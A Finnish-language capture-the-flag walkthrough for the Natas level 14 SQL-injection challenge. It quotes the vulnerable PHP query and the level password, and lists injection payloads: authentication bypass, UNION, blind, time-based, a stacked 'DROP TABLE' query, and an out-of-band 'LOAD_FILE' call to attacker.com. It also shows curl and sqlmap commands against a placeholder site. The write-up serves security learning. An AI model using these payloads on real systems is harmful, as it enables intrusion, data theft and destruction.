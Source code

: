 # level 14 - START HERE

natas14 : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

Perus selvittämistä ja tässä näyttää ainakin koodin ainakin on *username ; password* mahtaako olla koskien SQL injektiota tai tavallinen shell injektiota? 

PHP - koodikielessä ainakin (_index-source.html_) on *query* - kyselly, että hakee käyttäjännimen ja salasanansa, että jos täsmää sitten päästään eteenpäin, että pääsee hakee seuraavan levelin salasanansa, eli on **SQL injektio**.

ainakin pikaisella testauksella syötä **username:username** , **password:password** - *access denied!*

![alt text](./kuvat-level11-15/natas14-0.png)

![alt text](./kuvat-level11-15/natas14-1.png)


Tämä osuus ainakin kertoo kyseessä on SQL injektio ja tämä funktio:
```
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```

Sekä mahdolliset avain sanat meitä varmaan kiinnostaa ja debbugoida on ainakin.. `GET`, `username`, `password` ja `debug` parametrit. Tärkeimistä ainakin tarkistettu F12 ja url perään laitettu `/robots.txt`, että ei apua joten alettaan käydä kiinni mm. `curl` - komennon kautta ja jne.


## Level 14 - 1 SQL injektio

SQL-injektio on hyökkäysmenetelmä, jossa käyttäjä syöttää haitallista SQL-koodia sovelluksen lomakkeisiin tai URL-parametreihin, jotka eivät ole kunnolla suojattu. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

Esim. yritettään päästä login sisäänsä sen **username;password** 
```
username=' OR '1'='1
password=' OR '1'='1
```

- SQL kysely; SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';

**muita esim.** <br>
```
SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';
SELECT * FROM users WHERE username = 'alice' OR '1'='1' AND password = 's3cr3t' OR '1'='1';
```

**Miksi juuri "alice"?** <br>
Alice on valittu mahdollisesti esimerkkinä, koska se on helppo arvata ja käyttää testissä. Jos tietoturva-asiantuntijat suunnittelevat tällaisia haasteita, he voivat käyttää yleisiä nimiä (kuten "alice", "bob", "admin"), jotta voit kokeilla niitä oletuksena.


Alice voi myös liittyä johonkin järjestelmän oletusasetuksiin, tai se voi olla oletuskäyttäjä (vaikka tämä on vähemmän todennäköistä).

Täysin mahdollista, että tässä URL:ssa on SQL-injektio-aukko, ja "alice" voi olla käyttäjätunnus, jota pyritään hyödyntämään. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

## SQL Injektio - Whitehat
**white hat -testaajat** (eli eettiset hakkeroijat, penetraatiotestaajat jne.) käyttävät hyvin usein juuri tuollaista SQL-injektiorakennetta testatessaan, onko verkkosovellus altis SQL-injektiolle.

**Klassinen SQL-injektio:** <br><br>
Jos lomake tai URL-parametrit välitetään suoraan SQL-kyselyyn ilman suojausta, kuten:<br>
`SELECT * FROM users WHERE username = '[syöte]' AND password = '[syöte]';`

password (syöte) siis joku satunnainen sana väliin <br>

<br>
Tällöin kyselystä tulee käytännössä: <br>

`SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';`

<br>
Mitä tämä tekee?<br>

```
' OR 1=1 --:
' päättää alkuperäisen stringin.
OR 1=1 on aina tosi, joten se ohittaa autentikoinnin.
-- on SQL-kommenttimerkki, joka kommentoi loput rivistä pois (eli AND password = ... jää huomiotta).
```

### SQL injektio muita menetelmiä 

nykyaikainen white hat -testaus ja hyökkäystavat voivat käyttää monia eri tekniikoita riippuen sovelluksen rakenteesta, suojauksista ja tietokannasta.


1. UNION SQL Injection <br>
' UNION SELECT username, password FROM users --


2. Tautology Injection (klassikko: OR 1=1) <br>
' OR 1=1 --


3. Blind SQL Injection (Boolean-based) <br>
' AND 1=1 --   # toimii
' AND 1=2 --   # ei toimi


4. Time-based Blind SQL Injection <br>
' OR IF(1=1, SLEEP(5), 0) -- 


5. Error-based SQL Injection <br>
' ORDER BY 100 -- 


6. Stacked Queries (jos sallittu) <br>
'; DROP TABLE users; --


7. Second-order SQL Injection <br>
Tätä ei suoriteta heti, vaan tallennetaan ensin ja suoritetaan myöhemmin toisessa yhteydessä. Eli ensin rekisteröidään käyttäjänimi ja sitten 


8. Out-of-Band SQL Injection <br>
Tämä vaatii erityisiä olosuhteita, ja SQL-injektio lähettää tiedon ulos järjestelmästä, esim. DNS-kyselynä: <br>
' OR LOAD_FILE('\\\\attacker.com\\file') -- 



9. Using SQL Comments Smartly <br>
-- (yksirivinen kommentti) <br>
/* comment */ (monirivinen) <br>
%23 (URL-koodattu #, MySQL-kommentti) <br>
esim: `' OR 1=1 /*'`


✅ Miten white hat testaa eri metodit? <br>
- Kokeilee klassista: `' OR 1=1 --`
- Testaa error-muotoja ja katsoo mitä virheilmoituksia tulee <br>
- Testaa blind-injektiot jos mitään ei palaudu <br>
- Vahvistaa että kyseessä on injektio testaamalla SLEEP, ORDER BY, jne. <br>
- Käyttää automatisoituja työkaluja kuten sqlmap <br>

## Harjoitusta kohti mestariksi

Alkuum meneekin `' OR 1=1 --` - koska se on perusideana mikä lähtee harjoittelusta. Sitä näkee nopeasti, reagoi järjestelmän jollakin tavalla, että onnistuuko kirjautuminen vai tuleeko virhettä, jäätyykö pyyntö ja tms. Tämä periaatteessa toimii kuin ensimmäinen _pingi_ eli testaa onko järjestelmässä injektiota. 

Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  ' - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat


## SQL injektio kali linux:issa

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

**Sqlmap** - joka antaa automaattisesti erilaisia sql injektio, et tunnistaa classic/blind/time-based ja union pohjaisia, jne.
`sqlmap -u "http://target.site/login?username=admin&password=test" --batch --risk=3 --level=5`




---

# Level 14 - 2 - virallinen testi ja harjoitus - START HERE

Tähän väliin tulee muutamia kuvia, josta on suoritettu testejä ja vasta sen jälkeen toimivista ainakin osa antoi pientä vihjettä.


![alt text](./kuvat-level11-15/natas14-2.png)

![alt text](./kuvat-level11-15/natas14-3.png)

![alt text](./kuvat-level11-15/natas14-4.png)

![alt text](./kuvat-level11-15/natas14-5.png)

![alt text](./kuvat-level11-15/natas14-6.png)

![alt text](./kuvat-level11-15/natas14-7.png)

![alt text](./kuvat-level11-15/natas14-8.png)

![alt text](./kuvat-level11-15/natas14-9.png)

![alt text](./kuvat-level11-15/natas14-10.png)

![alt text](./kuvat-level11-15/natas14-11.png)

![alt text](./kuvat-level11-15/natas14-12.png)

![alt text](./kuvat-level11-15/natas14-13.png)








